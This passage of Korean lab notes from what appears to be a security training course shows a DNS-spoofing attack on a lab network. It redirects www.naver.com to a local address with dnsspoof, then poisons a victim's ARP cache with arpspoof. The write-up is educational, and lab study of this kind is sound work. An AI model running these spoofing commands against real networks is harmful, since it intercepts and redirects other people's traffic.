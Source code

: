 ![image_20](/assets/img/sk_shieldus_26/250716_image_20.png)
    

### ARP Spoofing

- kali에서 root로 / 에 dns 폴더 생성후 편집
    
    ```bash
     192.168.10.10 www.naver.com
    ```
    
![image_21](/assets/img/sk_shieldus_26/250716_image_21.png)
    

- `dnsspoof` 명령어로 해당 폴더 설정

```bash
dnsspoof -f /dns
```

- 이상태로 대기
    
![image_22](/assets/img/sk_shieldus_26/250716_image_22.png)
    
- `arpspoof` 진행
    
    ```bash
    arpspoof -i eth0 -t 192.168.10.40 192.168.10.2
    ```
    